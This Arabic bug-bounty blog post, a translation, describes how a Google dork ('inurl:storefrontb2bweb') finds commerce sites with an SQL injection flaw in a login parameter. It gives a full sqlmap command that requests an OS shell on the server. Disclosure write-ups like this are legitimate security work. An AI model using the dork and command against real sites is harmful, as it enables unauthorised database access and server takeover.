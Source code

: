 ```yaml
---
layout: post
title: من ثغرة SQL Injection إلى لوحة الشرف
---
```


![Username](/images/blog/002/main.png)

يغفل العديد من الناس الذين يعملون في مجال (Bug Bounty الإبلاغ عن الثغرات) عن أهمية إستخدام (Google Dorks) وهو تكنيك بحث متقدم يساعدك على إيجاد المعلومات التي عادتا قد لا تجدها بسهولة في الموقع الإليكتروني .

ومسمى أخر ل (Google Dork) هو (Google Hacking) والذي يعني أيضا إيجاد معلومات من الصعب الوصول إليها بمجرد إستخدام كلمة بحث بسيطة في محرك البحث ويمكنك الإطلاع أكثر عن هذا الموضوع [من هنا](https://whatis.techtarget.com/definition/Google-dork-query)



موخرََا عثرت على (Google Dork) يمكنك من العثور على مواقع تجارية مصابة بثغرة (SQL Injection)
والمكتشف الأصلي لهذه الطريقة هو مختبر إختراق بإسم ratboy.
```
inurl:storefrontb2bweb
```
بمجرد كتابة هذه الجملة في محرك البحث نجد أنه هناك 4 صفح من النتائج ولكن للأسف أغلب المواقع المصابة بالثغرة لا تمتلك (برنامج إبلاغ عن ثغرات Bug Bounty Program).
ولكن لحسن الحظ وجدت موقع من تلك المواقع يمتلك (برنامج إبلاغ عن ثغرات Bug Bounty Program).
وال(Parameter) المصاب هو (username parameter) الذي يرجع خطأ (SQL) عندما نستخدم (علامة إقتباس Single Quotation).

![Username](/images/blog/002/2.jpeg)

يمكننا إستغلال تلك الثغرة بإستخدام أداة SQLMAP
```
python sqlmap.py -u"http://localhost/storefrontB2BWEB/login.do?setup_principal=true&action=prepare_forgot&login=true&usr_name=foo"
-p usr_name --dbms=mssql --level=5 --risk=3
--tamper=between,space2comment -o --random-agent --parse-errors
--os-shell --technique=ES
```
يمكننا إصلاح تلك الثغرة عن طريق (التأكد من المدخلات User Input Validation)

عندما أبلغت عن هذه الثغرة دخلت لوحة الشرف. ومنتهى أملي أن كل الشركات المصابة بهذه الثغرات تأخذ الخطوات اللازمة لإصلاح هذه المشكلة والأهم هو إيجاد وسيلة للإبلاغ عنها إذا وجدت


**إسم الكاتب :** [Jadek Mark](https://twitter.com/mase289)
**إسم المترجم :** [محمد ناصف](https://muhammadnasef.com/)
**تاريخ النشر :** 15 فبراير 2021
**رابط المقالة الأصلية :** [من هنا](https://bit.ly/2Mpmf4T)